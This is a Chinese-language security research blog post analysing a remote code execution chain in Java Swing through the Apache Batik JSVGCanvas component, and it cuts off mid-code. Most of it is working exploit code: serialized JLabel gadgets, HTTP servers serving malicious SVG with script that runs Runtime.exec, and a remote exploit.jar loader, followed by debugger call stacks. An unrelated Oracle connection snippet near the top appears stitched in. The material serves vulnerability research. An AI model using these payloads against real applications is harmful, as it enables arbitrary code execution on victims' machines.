










# batik-swing 组件造成的 rce 漏洞-先知社区

> **来源**: https://xz.aliyun.com/news/16652  
> **文章ID**: 16652

---

# batik-swing 组件造成的 rce 漏洞

## 前言

最近遇到一个这个组件的 rce 利用方法，感觉发现的过程很妙于是自己便跟着记录一下

```
Connection getConnectionInternal() throws SQLException {
    if (this.connection == null || this.connection.isClosed()) {
        String var1 = this.getUsername();
        String var2 = this.getPassword();
        if (this.getDataSourceName() != null) {
            try {
                InitialContext var3 = null;

                try {
                    Properties var4 = System.getProperties();
                    var3 = new InitialContext(var4);
                } catch (SecurityException var5) {
                }

                if (var3 == null) {
                    var3 = new InitialContext();
                }

                DataSource var7 = (DataSource)var3.lookup(this.getDataSourceName());
                if (this.username != null && var2 != null) {
                    this.connection = var7.getConnection(this.username, var2);
                } else {
                    this.connection = var7.getConnection();
                }
            } catch (NamingException var6) {
                throw (SQLException)((SQLException)DatabaseError.createSqlException(300, var6.getMessage()).fillInStackTrace());
            }
        } else {
            if (this.getUrl() == null) {
                throw (SQLException)((SQLException)DatabaseError.createSqlException(301).fillInStackTrace());
            }

            if (!this.driverManagerInitialized) {
                DriverManager.registerDriver(new OracleDriver());
                this.driverManagerInitialized = true;
            }

            String var8 = this.getUrl();
            if (var8.equals("") || var1 == null || var1.equals("") || var2 == null || var2.equals("")) {
                throw (SQLException)((SQLException)DatabaseError.createSqlException(301).fillInStackTrace());
            }

            this.connection = DriverManager.getConnection(var8, var1, var2);
        }
    }

    return this.connection;
}
```

就很朴实无华



这样成功的触发了漏洞

## SVG-JS触发漏洞

### 漏洞复现

首先给出代码

```
package me.n1ar4.exploit;

import javax.swing.*;
import java.lang.reflect.Field;

public class JSRCE {
    public Object getObject() throws Exception {
        JLabel label = new JLabel();
        // OLD JDK SET TRUE/FALSE
        // NEW JDK SET FALSE
        label.putClientProperty("html.disable", false);
        Field textField = label.getClass().getDeclaredField("text");
        textField.setAccessible(true);
        textField.set(label,"<html><object " +
                "classid="org.apache.batik.swing.JSVGCanvas">" +
                "<param name="URI" value="http://localhost:8886/2.xml"></object></html>");
        return label;
    }

    public static void main(String[] args) throws Exception{
        Object t = new JSRCE().getObject();
        byte[] d = SerUtil.serialize(t);

        SerUtil.deserialize(d);
    }
}

```

```
package me.n1ar4;
import com.sun.net.httpserver.HttpExchange;
import com.sun.net.httpserver.HttpHandler;
import com.sun.net.httpserver.HttpServer;

import java.io.IOException;
import java.io.OutputStream;
import java.net.InetSocketAddress;

public class XmlServer {
    public static void main(String[] args) throws IOException {
        HttpServer server = HttpServer.create(new InetSocketAddress(8886), 0);
        server.createContext("/1.xml", new Xml1Handler());
        server.createContext("/2.xml", new Xml2Handler());
        server.setExecutor(null);
        server.start();

        System.out.println("Server started on port 8886");
    }

    static class Xml1Handler implements HttpHandler {
        @Override
        public void handle(HttpExchange exchange) throws IOException {
            exchange.getResponseHeaders().set("Content-Type", "application/xml");
            exchange.getResponseHeaders().set("Access-Control-Allow-Origin", "*");
            exchange.sendResponseHeaders(200, 0);
            String xml = "<svg xmlns="http://www.w3.org/2000/svg" " +
                    "xmlns:xlink="http://www.w3.org/1999/xlink" " +
                    "version="1.0"> <script type="application/java-archive" " +
                    "xlink:href="http://localhost:8887/exploit.jar"/> " +
                    "<text>Static text ...</text> </svg>";
            OutputStream responseBody = exchange.getResponseBody();
            responseBody.write(xml.getBytes());
            responseBody.close();
        }
    }
    static class Xml2Handler implements HttpHandler {
        @Override
        public void handle(HttpExchange exchange) throws IOException {
            exchange.getResponseHeaders().set("Content-Type", "application/xml");
            exchange.getResponseHeaders().set("Access-Control-Allow-Origin", "*");
            exchange.sendResponseHeaders(200, 0);
            String xml = "<svg xmlns="http://www.w3.org/2000/svg" width="100" " +
                    "height="100"> <circle cx="50" cy="50" r="50" fill="green" " +
                    "onload="showFrame()"/> <script type="text/ecmascript"> " +
                    "importPackage(Packages.java.lang); function showFrame() { " +
                    "Runtime.getRuntime().exec("calc.exe"); } </script> </svg>";
            OutputStream responseBody = exchange.getResponseBody();
            responseBody.write(xml.getBytes());
            responseBody.close();
        }
    }
}

```

先运行我们的 xml 的服务端，然后再运行 RCE

  
弹出计算器  
触发漏洞成功

### 漏洞分析

这里我们来分析分析原因，已经 payload 为什么这样构造

其实看我们的 payload 就很明显是因为去加载了我们的 html 文件调用了一些方法然后导致了去加载 xml 的代码，那为什么是 SVG 代码呢?下面我们来调试分析

首先我们需要明白

```
textField.set(label,"<html><object " +
"classid="org.apache.batik.swing.JSVGCanvas">" +
"<param name="URI" value="http://localhost:8886/1.xml"></object></html>");
```

这个代码的意义，其实说简单点就是调用 JSVGCanvas 类的 setURL 方法

因为 HTML 格式支持了 OBJECT 标签，classid 属性表示类名，param 设置类中的参数，这也是我们利用 Batik 组件的原因

首先我们直接来到关键部分

调用栈如下

```
createComponent:99, ObjectView (javax.swing.text.html)
setComponentParent:291, ComponentView (javax.swing.text)
run:263, ComponentView$1 (javax.swing.text)
dispatch$$$capture:311, InvocationEvent (java.awt.event)
dispatch:-1, InvocationEvent (java.awt.event)
 - 异步堆栈跟踪
<init>:284, InvocationEvent (java.awt.event)
<init>:171, InvocationEvent (java.awt.event)
invokeLater:1265, EventQueue (java.awt)
invokeLater:1290, SwingUtilities (javax.swing)
setParent:276, ComponentView (javax.swing.text)
replace:217, CompositeView (javax.swing.text)
loadChildren:114, CompositeView (javax.swing.text)
loadChildren:701, FlowView$LogicalView (javax.swing.text)
setParent:139, CompositeView (javax.swing.text)
loadChildren:139, FlowView (javax.swing.text)
setParent:139, CompositeView (javax.swing.text)
setParent:289, FlowView (javax.swing.text)
setParent:75, ParagraphView (javax.swing.text.html)
replace:217, CompositeView (javax.swing.text)
replace:181, BoxView (javax.swing.text)
loadChildren:114, CompositeView (javax.swing.text)
setParent:139, CompositeView (javax.swing.text)
setParent:72, BlockView (javax.swing.text.html)
setParent:1327, HTMLEditorKit$HTMLFactory$BodyBlockView (javax.swing.text.html)
replace:217, CompositeView (javax.swing.text)
replace:181, BoxView (javax.swing.text)
loadChildren:114, CompositeView (javax.swing.text)
setParent:139, CompositeView (javax.swing.text)
setParent:72, BlockView (javax.swing.text.html)
<init>:381, BasicHTML$Renderer (javax.swing.plaf.basic)
createHTMLView:67, BasicHTML (javax.swing.plaf.basic)
updateRenderer:207, BasicHTML (javax.swing.plaf.basic)
installComponents:348, BasicLabelUI (javax.swing.plaf.basic)
installUI:325, BasicLabelUI (javax.swing.plaf.basic)
writeObject:915, JLabel (javax.swing)
invoke0:-2, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:497, Method (java.lang.reflect)
invokeWriteObject:1028, ObjectStreamClass (java.io)
writeSerialData:1496, ObjectOutputStream (java.io)
writeOrdinaryObject:1432, ObjectOutputStream (java.io)
writeObject0:1178, ObjectOutputStream (java.io)
writeObject:348, ObjectOutputStream (java.io)
serialize:12, SerUtil (me.n1ar4.exploit)
main:22, JSRCE (me.n1ar4.exploit)
```

在解析我们的 object 的标签的时候是有要求的

跟进 createComponent 方法

```
protected Component createComponent() {
    AttributeSet attr = getElement().getAttributes();
    String classname = (String) attr.getAttribute(HTML.Attribute.CLASSID);
    try {
        ReflectUtil.checkPackageAccess(classname);
        Class c = Class.forName(classname, true,Thread.currentThread().
                                getContextClassLoader());
        Object o = c.newInstance();
        if (o instanceof Component) {
            Component comp = (Component) o;
            setParameters(comp, attr);
            return comp;
        }
    } catch (Throwable e) {
        // couldn't create a component... fall through to the
        // couldn't load representation.
    }

    return getUnloadableRepresentation();
}
```

可以看到我们的

  
条件  
第一必须存在无参的构造函数，然后第二必须继承了我们的 Component 接口才能调用类的 setter 方法

所以其实利用的话给我们缩小了很多的范围

然后看到我们的主角类



而且也存在对应的无参构造函数



我们看到如何调用 setter 方法的

```
private void setParameters(Component comp, AttributeSet attr) {
    Class k = comp.getClass();
    BeanInfo bi;
    try {
        bi = Introspector.getBeanInfo(k);
    } catch (IntrospectionException ex) {
        System.err.println("introspector failed, ex: "+ex);
        return;             // quit for now
    }
    PropertyDescriptor props[] = bi.getPropertyDescriptors();
    for (int i=0; i < props.length; i++) {
        //      System.err.println("checking on props[i]: "+props[i].getName());
        Object v = attr.getAttribute(props[i].getName());
        if (v instanceof String) {
            // found a property parameter
            String value = (String) v;
            Method writer = props[i].getWriteMethod();
            if (writer == null) {
                // read-only property. ignore
                return;     // for now
            }
            Class[] params = writer.getParameterTypes();
            if (params.length != 1) {
                // zero or more than one argument, ignore
                return;     // for now
            }
            Object [] args = { value };
            try {
                MethodUtil.invoke(writer, comp, args);
            } catch (Exception ex) {
                System.err.println("Invocation failed");
                // invocation code
            }
        }
    }
}
```



逻辑和大都数调用 setter 的逻辑一样的

那我们现在的思路就是转到他的 setter 方法了

  
可以看到它的 setter 方法其实很多的，我们看到 setURI 方法

```
public void setURI(String newURI) {
    String oldValue = this.uri;
    this.uri = newURI;
    if (this.uri != null) {
        this.loadSVGDocument(this.uri);
    } else {
        this.setSVGDocument((SVGDocument)null);
    }

    this.pcs.firePropertyChange("URI", oldValue, this.uri);
}
```


可以看到这里可以获取我们的远程地址，然后就可以调用了

我们看其中的方法其实就已经明白了，跟进 loadSVGDocument

```
public void loadSVGDocument(String url) {
    String oldURI = null;
    if (this.svgDocument != null) {
        oldURI = this.svgDocument.getURL();
    }

    final ParsedURL newURI = new ParsedURL(oldURI, url);
    this.stopThenRun(new Runnable() {
        public void run() {
            String url = newURI.toString();
            JSVGComponent.this.fragmentIdentifier = newURI.getRef();
            JSVGComponent.this.loader = new DocumentLoader(JSVGComponent.this.userAgent);
            JSVGComponent.this.nextDocumentLoader = new SVGDocumentLoader(url, JSVGComponent.this.loader);
            JSVGComponent.this.nextDocumentLoader.setPriority(1);
            Iterator var2 = JSVGComponent.this.svgDocumentLoaderListeners.iterator();

            while(var2.hasNext()) {
                Object svgDocumentLoaderListener = var2.next();
                JSVGComponent.this.nextDocumentLoader.addSVGDocumentLoaderListener((SVGDocumentLoaderListener)svgDocumentLoaderListener);
            }

            JSVGComponent.this.startDocumentLoader();
        }
    });
}
```

而 SVG 中是可以有 js 代码的

我们就可以使用 JS 代码来执行恶意的命令

```
exec:347, Runtime (java.lang)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:497, Method (java.lang.reflect)
invoke:126, MemberBox (org.mozilla.javascript)
call:225, NativeJavaMethod (org.mozilla.javascript)
call1:32, OptRuntime (org.mozilla.javascript.optimizer)
_c_showFrame_1:1, Inline__script__http___localhost_8886_2_xml_1_4 (org.mozilla.javascript.gen)
call:-1, Inline__script__http___localhost_8886_2_xml_1_4 (org.mozilla.javascript.gen)
callName0:74, OptRuntime (org.mozilla.javascript.optimizer)
_c_script_0:1, Event_attribute_http___localhost_8886_2_xml_1_onload_6 (org.mozilla.javascript.gen)
call:-1, Event_attribute_http___localhost_8886_2_xml_1_onload_6 (org.mozilla.javascript.gen)
doTopCall:405, ContextFactory (org.mozilla.javascript)
doTopCall:3508, ScriptRuntime (org.mozilla.javascript)
call:-1, Event_attribute_http___localhost_8886_2_xml_1_onload_6 (org.mozilla.javascript.gen)
exec:-1, Event_attribute_http___localhost_8886_2_xml_1_onload_6 (org.mozilla.javascript.gen)
evaluateReader:1293, Context (org.mozilla.javascript)
run:292, RhinoInterpreter$2 (org.apache.batik.bridge)
call:544, Context (org.mozilla.javascript)
call:515, ContextFactory (org.mozilla.javascript)
evaluate:302, RhinoInterpreter (org.apache.batik.bridge)
handleEvent:671, BaseScriptingEnvironment$1 (org.apache.batik.bridge)
fireEventListeners:320, EventSupport (org.apache.batik.dom.events)
fireEventListeners:362, EventSupport (org.apache.batik.dom.events)
dispatchEvent:263, EventSupport (org.apache.batik.dom.events)
dispatchEvent:1012, AbstractNode (org.apache.batik.dom)
dispatchSVGLoad:681, BaseScriptingEnvironment (org.apache.batik.bridge)
dispatchSVGLoad:610, BaseScriptingEnvironment (org.apache.batik.bridge)
dispatchSVGLoadEvent:597, BaseScriptingEnvironment (org.apache.batik.bridge)
dispatchSVGLoadEvent:239, UpdateManager (org.apache.batik.bridge)
dispatchSVGLoadEvent:220, UpdateManager (org.apache.batik.bridge)
run:100, SVGLoadEventDispatcher (org.apache.batik.swing.svg)
```

后面就是交给 SVG 的路由分发去处理的

## SVG-jar 触发漏洞

### 漏洞复现

代码

```
package me.n1ar4;

import com.sun.net.httpserver.HttpExchange;
import com.sun.net.httpserver.HttpHandler;
import com.sun.net.httpserver.HttpServer;

import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.io.InputStream;
import java.io.OutputStream;
import java.net.InetSocketAddress;

public class JarServer {
    public static void main(String[] args) throws IOException {
        HttpServer server = HttpServer.create(new InetSocketAddress(8887), 0);
        server.createContext("/exploit.jar", new BinaryHandler());
        server.setExecutor(null);
        server.start();
        System.out.println("Server started on port 8887");
    }
    public static byte[] readInputStream(InputStream inputStream) {
        byte[] temp = new byte[4096];
        int readOneNum = 0;
        ByteArrayOutputStream bos = new ByteArrayOutputStream();
        try {
            while ((readOneNum = inputStream.read(temp)) != -1) {
                bos.write(temp, 0, readOneNum);
            }
            inputStream.close();
        } catch (Exception ignored) {
        }
        return bos.toByteArray();
    }
    static class BinaryHandler implements HttpHandler {
        @Override
        public void handle(HttpExchange exchange) throws IOException {
            System.out.println("get request");
            byte[] data = readInputStream(JarServer.class.getClassLoader()
                    .getResourceAsStream("exploit.jar"));
            exchange.getResponseHeaders().set("Content-Type", "application/octet-stream");
            exchange.getResponseHeaders().set("Access-Control-Allow-Origin", "*");
            exchange.sendResponseHeaders(200, data.length);
            OutputStream responseBody = exchange.getResponseBody();
            responseBody.write(data);
            responseBody.close();
        }
    }
}

```

```
package me.n1ar4.exploit;

import javax.swing.*;
import java.lang.reflect.Field;

public class JarRCE {
    public Object getObject() throws Exception {
        JLabel label = new JLabel();
        // OLD JDK SET TRUE/FALSE
        // NEW JDK SET FALSE
        label.putClientProperty("html.disable", false);
        Field textField = label.getClass().getDeclaredField("text");
        textField.setAccessible(true);
        textField.set(label,"<html><object " +
                "classid="org.apache.batik.swing.JSVGCanvas">" +
                "<param name="URI" value="http://localhost:8886/1.xml"></object></html>");
        return label;
    }

    public static void main(String[] args) throws Exception{
        Object t = new JarRCE().getObject();
        byte[] d = SerUtil.serialize(t);

        SerUtil.deserialize(d);
    }
}

```

运行后



弹出计算器

### 漏洞分析

```
setURI:522, JSVGCanvas (org.apache.batik.swing)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect) [2]
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:497, Method (java.lang.reflect)
invoke:71, Trampoline (sun.reflect.misc)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect) [1]
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:497, Method (java.lang.reflect)
invoke:275, MethodUtil (sun.reflect.misc)
setParameters:155, ObjectView (javax.swing.text.html)
createComponent:99, ObjectView (javax.swing.text.html)
setComponentParent:291, ComponentView (javax.swing.text)
run:263, ComponentView$1 (javax.swing.text)
dispatch$$$capture:311, InvocationEvent (java.awt.event)
dispatch:-1, InvocationEvent (java.awt.event)
 - 异步堆栈跟踪
<init>:284, InvocationEvent (java.awt.event)
<init>:171, InvocationEvent (java.awt.event)
invokeLater:1265, EventQueue (java.awt)
invokeLater:1290, SwingUtilities (javax.swing)
setParent:276, ComponentView (javax.swing.text)
replace:217, CompositeView (javax.swing.text)
loadChildren:114, CompositeView (javax.swing.text)
loadChildren:701, FlowView$LogicalView (javax.swing.text)
setParent:139, CompositeView (javax.swing.text)
loadChildren:139, FlowView (javax.swing.text)
setParent:139, CompositeView (javax.swing.text)
setParent:289, FlowView (javax.swing.text)
setParent:75, ParagraphView (javax.swing.text.html)
replace:217, CompositeView (javax.swing.text)
replace:181, BoxView (javax.swing.text)
loadChildren:114, CompositeView (javax.swing.text)
setParent:139, CompositeView (javax.swing.text)
setParent:72, BlockView (javax.swing.text.html)
setParent:1327, HTMLEditorKit$HTMLFactory$BodyBlockView (javax.swing.text.html)
replace:217, CompositeView (javax.swing.text)
replace:181, BoxView (javax.swing.text)
loadChildren:114, CompositeView (javax.swing.text)
setParent:139, CompositeView (javax.swing.text)
setParent:72, BlockView (javax.swing.text.html)
<init>:381, BasicHTML$Renderer (javax.swing.plaf.basic)
createHTMLView:67, BasicHTML (javax.swing.plaf.basic)
updateRenderer:207, BasicHTML (javax.swing.plaf.basic)
installComponents:348, BasicLabelUI (javax.swing.plaf.basic)
installUI:325, BasicLabelUI (javax.swing.plaf.basic)
writeObject:915, JLabel (javax.swing)
invoke0:-2, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:497, Method (java.lang.reflect)
invokeWriteObject:1028, ObjectStreamClass (java.io)
writeSerialData:1496, ObjectOutputStream (java.io)
writeOrdinaryObject:1432, ObjectOutputStream (java.io)
writeObject0:1178, ObjectOutputStream (java.io)
writeObject:348, ObjectOutputStream (java.io)
serialize:12, SerUtil (me.n1ar4.exploit)
main:22, JarRCE (me.n1ar4.exploit)
```

前面的调用栈都是一模一样的

主要是后面

一样会来到 SVG 解析的代码

```
public void run() {
